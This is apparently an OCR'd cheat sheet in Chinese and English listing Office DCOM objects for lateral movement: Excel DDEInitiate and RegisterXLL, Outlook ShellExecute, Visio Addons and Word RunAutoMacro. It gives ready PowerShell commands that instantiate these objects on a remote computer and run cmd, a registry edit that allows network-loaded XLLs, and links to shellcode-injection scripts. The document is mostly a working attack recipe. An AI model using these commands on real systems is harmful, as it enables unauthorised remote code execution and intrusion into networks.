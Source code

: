 	Excel.Application
	  DDEInitiate
	  RegisterXLL
	Outlook.Application
	  CreateObject->Shell.Application->ShellExecute
	  CreateObject->ScriptControl (office-32bit only)
	Visio.InvisibleApp
	  Addons
	  ExecuteLine
	Word.Application
	  RunAutoMacro
	通过 ExecuteExcel4Macro 通过 DCOM 将 shellcode 注入 excel.exe 的 Powershell 脚本
	>Invoke-Excel4DCOM64.ps1 https://gist.github.com/Philts/85d0f2f0a1cc901d40bbb5b44eb3b4c9
	>Invoke-ExShellcode.ps1 https://gist.github.com/Philts/f7c85995c5198e845c70cc51cd4e7e2a
	使用Excel DDE
	PS C:\> $excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application", "$ComputerName"))
	PS C:\> $excel.DisplayAlerts = $false
	PS C:\> $excel.DDEInitiate("cmd", "/c calc.exe")
	使用 Excel RegisterXLL
	不能可靠地与远程目标一起使用
	Require: reg add HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Excel\Security\Trusted Locations /v AllowsNetworkLocations /t REG_DWORD /d 1
	PS> $excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application", "$ComputerName"))
	PS> $excel.RegisterXLL("EvilXLL.dll")
	使用Visio
	$visio = [activator]::CreateInstance([type]::GetTypeFromProgID("Visio.InvisibleApp", "$ComputerName"))
	$visio.Addons.Add("C:\Windows\System32\cmd.exe").Run("/c calc")